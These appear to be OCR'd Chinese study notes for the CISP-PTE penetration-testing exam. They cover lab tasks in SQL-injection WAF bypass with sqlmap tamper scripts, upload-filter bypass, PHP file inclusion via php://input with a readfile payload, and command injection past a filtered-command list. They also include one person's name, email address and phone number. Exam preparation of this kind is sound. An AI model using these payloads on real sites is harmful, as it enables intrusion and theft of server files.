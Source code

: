 郝永清

hyqkx1977@263.net

18610677915

cisp-pte:

20道单选：腾讯安全面试题：多选

21-25：key:8 centos:172.16.12.100:81-85

综合题：三个key

第一题：sql注入：waf,穿waf

空格，union

sqlmap.py: --tamper "space2plus.py"

d:\安全工具

sqlmap:复制到根目录 

手工注入：

第二题：上传漏洞：

只允许上传jpg

php3,php5解析漏洞

文件头修改：burp:

过滤一句话：eval,request

php读文件

&lt;?php readfile\("../key"\);?&gt;

第三题：文件包含：难

php伪协议

file=php://input

post data:

&lt;?php readfile\("../key"\);?&gt;

第四题：命令执行：

过滤：cat,vi,less,more,head,tail,tailf,tac,sed

\|head ../key.php\|grep key

vi,sed

第五题：日志分析：经验：

前半部分：漏扫结果：404

12.12，200空格 adminlogin.php,登录，黑客攻击方法：暴力破解，burp:password:password123

验证码爆破：新题：username=admin
